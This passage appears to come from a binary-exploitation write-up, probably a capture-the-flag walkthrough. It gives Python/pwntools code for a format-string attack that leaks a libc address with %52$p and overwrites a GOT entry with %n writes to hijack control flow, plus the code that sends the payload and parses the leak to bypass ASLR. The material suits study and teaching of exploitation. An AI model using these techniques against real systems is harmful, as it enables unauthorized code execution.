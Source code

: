 ```python
  n0 = len(exploit)		 									  				# n0 will represent the ammount written thus far.
  if is_second:
    n0 -= 1            														# when debugging without this, i was off by 1
    																		  				# on the second payload. not entirely sure why though.
                       														# i placed the -1 here because it seemed the most natural.

  exploit += b" %52$p" 														# leak __libc_start_main
	# n1 = lower 2 bytes (less significant) of ret_addr
  n1 = u32(p32(ret_addr)[:2]+b"\x00\x00")	
  # the -11 is the address of __libc_start_main and the space before it. because len(" 0xXXXXXXXX") = 11
  exploit += ("%{}x".format(n1 - n0 - 11)).encode() 
  exploit += b"%1$n"
  n2 = u32(p32(ret_addr)[2:]+b"\x00\x00")					# n2 = upper 2 bytes (more significant) of ret_addr
  
  # if we had already written too much characters.
  if n2 < n1:
    # overflow the 2 bytes we are going to write to.
    # since they are just 2 bytes the 0x10000 is going to overflow
    # and be gone while the original n2 is going to be written.
    n2 = 0x10000 + n2	
  if n2 > n1:					# needed to avoid edge case where n1 == n2.
    exploit += ("%{}x".format(n2-n1)).encode()
    									# There is still an edge case where |n2-n1| < 8 and the %x
      								# is made of 8 digits but that is irrelevant here.
  exploit += b"%2$n"

  return exploit
```

Now for stage (2), we are going to need to run the program and extract the `__libc_start_main` address. The code that does that:

```python
outputs = []																								# handle all outputs for proper logging
outputs.append(io.recvuntil("yourself: "))									# first output from the program

exploit = get_eip_control(puts_got_plt, main_addr)
io.sendline(exploit)																				# deliever stage (1) of the exploit

# io.interactive() # left for debugging purposes
res = io.recvuntil(" 0x")

outputs.append(res)

if not args.NOASLR:																									
  __libc_start_main_246 = int(io.recv(8), 16)								# extract the address as int
  																													# from formatted output
  outputs.append(hex(__libc_start_main_246))
else:																												# enable for debugging
  __libc_start_main_246 = 0xf7e2a286
```